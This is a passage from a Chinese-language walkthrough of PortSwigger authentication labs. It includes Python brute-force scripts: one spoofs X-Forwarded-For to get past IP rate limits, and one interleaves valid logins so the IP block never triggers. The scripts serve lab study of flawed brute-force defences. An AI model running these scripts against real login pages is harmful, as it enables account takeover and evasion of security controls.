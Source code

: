     usernames = open('usernames.txt', 'r').read().splitlines()
    passwords = open('passwords.txt', 'r').read().splitlines()

    for i in range(0, len(passwords)):
        headers['X-Forwarded-For'] = f'8.{i}.{i}.{i}'
        data['password'] = passwords[i]

        response = requests.post(
            'https://your-lab-subdomain.web-security-academy.net/login',
            cookies=cookies,
            headers=headers,
            data=data,
            verify=False,
        )

        if 'Invalid username or password.' not in response.text:
            print(f'Found valid credentials: {data['username']}:{passwords[i]}')
            break
    ```
    :::
6. 經過枚舉後取得帳號密碼為 `mysq`l/`freedom`，通過此 Lab。
:::

### 有缺陷的暴力破解防護

暴力破解攻擊在成功入侵帳戶之前，極有可能涉及許多次失敗的猜測。從邏輯上來說，暴力破解防護的核心在於盡可能讓自動化過程變得困難，並減慢攻擊者嘗試登入的速度。防止暴力破解攻擊最常見的兩種方式是：

* 如果遠端使用者進行過多次失敗的登入嘗試，則鎖定該使用者試圖存取的帳戶
* 如果遠端使用者在短時間內進行過多次登入嘗試，則封鎖該使用者的 IP 位址

這兩種方法都能提供不同程度的保護，但都不是無懈可擊的，特別是在使用有缺陷的邏輯實作時。

例如，您有時可能會發現，如果登入失敗次數過多，您的 IP 位址會被封鎖。在某些實作中，如果該 IP 位址的擁有者成功登入，失敗嘗試次數的計數器就會重設。這意味著攻擊者只需要每隔幾次嘗試就登入自己的帳戶，就能防止達到這個限制。

在這種情況下，只要在字典檔中定期加入您自己的登入憑證，就足以讓這種防護機制幾乎形同虛設。

::: tip Lab: [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

1. 寫 exploit 每嘗試兩次請求就登入一組正確的帳號密碼，直到嘗試到正確的密碼就完成此 Lab 了
    ```python
    import requests

    def create_payload():
        wordlist = """123456
    password
    12345678

    ...put your passwords wordlist here...

    montana
    moon
    moscow""".split('\n')

        payload = []

        index = 0
        while (True):
            if index % 2 == 0:
                payload.append({
                    'username': 'wiener',
                    'password': 'peter'
                })
            payload.append({
                'username': 'carlos',
                'password': wordlist[index]
            })
            index += 1
            if index >= len(wordlist):